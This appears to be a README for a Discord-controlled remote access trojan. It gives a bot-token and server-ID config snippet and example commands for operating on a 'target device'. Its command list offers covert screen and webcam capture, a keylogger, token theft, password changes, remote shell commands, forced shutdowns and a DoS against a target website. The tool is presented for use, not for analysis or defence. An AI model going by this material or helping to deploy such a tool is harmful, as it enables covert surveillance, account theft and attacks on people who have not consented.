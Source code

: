 with discord rat, you can send and receive data without establishing a IP connection between you and the target device
change the server ID and token.
you can manage many sessions with the ID given to users
```
serverid = ""  #Your Server ID
token = ""  #Your Bot Token
```

example
```
wq.sessions
wq.get_screen LhngKv-s30OXbri/I2aD"
wq.get_webcam LhngKv-s30OXbri/I2aD
wq.altf4 LhngKv-s30OXbri/I2aD"
wq.click LhngKv-s30OXbri/I2aD 10 10"
wq.write LhngKv-s30OXbri/I2aD hello world"
wq.open_link LhngKv-s30OXbri/I2aD https://github.com"
wq.dos LhngKv-s30OXbri/I2aD https://targetsite.com
wq.get_token LhngKv-s30OXbri/I2aD
wq.keylogger LhngKv-s30OXbri/I2aD
wq.search LhngKv-s30OXbri/I2aD wqlsz github
wq.press LhngKv-s30OXbri/I2aD win
wq.command LhngKv-s30OXbri/I2aD netstat -n
wq.restart LhngKv-s30OXbri/I2aD
wq.shutdown LhngKv-s30OXbri/I2aD
wq.shutdownpc LhngKv-s30OXbri/I2aD
wq.notepad LhngKv-s30OXbri/I2aD
wq.change_passwrod LhngKv-s30OXbri/I2aD wqlsz
```




---commands----

altf4           
change_password 
clear      
click           
command         
delete_channel  
dos             
get_screen      
get_token       
get_webcam      
help            
keylogger       
notepad         
open_link       
press           
restart         
search          
sessions        
shell           
shutdown        
shutdownnpc     
write

